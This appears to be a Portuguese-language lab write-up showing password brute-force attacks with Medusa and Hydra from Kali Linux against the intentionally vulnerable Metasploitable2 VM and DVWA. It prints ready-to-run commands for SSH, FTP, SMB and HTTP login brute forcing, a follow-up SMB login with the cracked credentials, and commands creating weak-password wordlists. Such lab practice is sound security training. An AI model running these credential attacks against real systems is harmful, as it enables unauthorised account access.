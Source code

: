 # Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux



### 🛠 Ferramentas Utilizadas

- Kali Linux (máquina atacante)
- Metasploitable2 (máquina alvo, servidor dos serviços atacados)
- Medusa – para ataques a serviços de rede

### 👩‍💻 Estrutura do Laboratorio

- A máquina atacada (Metasploitable2) será configuradas no VirtualBox, e a maquina atacante (Kali Linux) no wsl2.

A metasploitable2 é uma VM opensource que pode ser baixada neste link: https://www.vulnhub.com/entry/metasploitable-2,29/Sua.  instalção pode ser facilmente feita com VirtualBox.

### Ataques 💣

```plaintext
medusa -h [target IP] -u/U [username] -P [password list] -M [module] -t [threads]
```

- `-h`: Especifica o host de destino (endereço IP ou nome de domínio).
- `-u`: Define o nome de usuário a ser usado durante o ataque de força bruta.
- `-U`: Especifica uma lista de nomes de usuários.
- `-P`: Especifica o caminho para o arquivo de lista de senhas.
- `-M`: Selecione o módulo ou protocolo (como SSH, FTP ou HTTP).
- `-m`: Especifica um módulo personalizado para força bruta de formulário HTTP. O formato é `FORM:[login action URL]:[username field]=[password field]`.
- `-t`: Define o número de threads para conexões paralelas (o padrão é 16).

Medusa pode atingir serviços como SSH, FTP e HTTP, entre outros. Você pode personalizar o ataque ajustando o número de threads, mirando em vários hosts ou usando listas de palavras diferentes.

### 👾Exemplo 1: Força bruta SSH

```bash
medusa -h 192.168.1.36  -U usernames.txt -P passwords.txt -M ssh -t 10  | grep SUCCESS
```

![](screenshot.1.jpg)

### ☣Exemplo 2:Força bruta em  FTP

```bash
medusa -h 192.168.1.36  -U usernames.txt -P passwords.txt -M ftp -t 8  | grep SUCCESS
```

![](screenshot.2.jpg)

### 💀Exemplo 3: Força bruta de login HTTP



DVWA – Damn Vulnerable Web Application é uma ferramenta desenvolvida em PHP/MySQL que contém diversos tipos de vulnerabilidades Web, é uma ótima solução para praticar seus conhecimentos em Segurança de Aplicações Web.



<img src="C:\Users\Graciele\Desktop\dvwa-11.jpg" style="zoom:33%;" />



```bash
hydra -L usernames.txt -P passwords.txt 192.168.1.36 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

![](screenshot.3.jpg)

### ☠ Exemplo 4: Força bruta em Serviço SMB 

```bash
medusa -h 192.168.1.36 -U usernames.txt -P passwords.txt -M smbnt -t 2 | grep SUCCESS
```

![](C:\Users\Graciele\Desktop\screenshot.4.jpg)

Agora vamos testar as credenciais encontrada (user: msfadmin e password: msfadmin):

```bash
smbclient -L //192.168.1.36 -U msfadmin
```

### 📚 Criação das wordlists

Para realizar os testes de força bruta, foram criados dois arquivos simples contendo combinações comuns de usuários e senhas:

📑passwords.txt - Lista de senhas fracas que serão utilizadas nas tentativas de autenticação.

```bash
echo -e "123456\npassword\nqwerty\nWelcome123\nmsfadmin" > passwords.txt
```

📄 usernames.txt - Lista  de usernames de usuários que serão testados nos serviços vulneráveis.

```bash
echo -e "user\nmsfadmin\nservice\nadmin\nroot" > usernames.txt
```





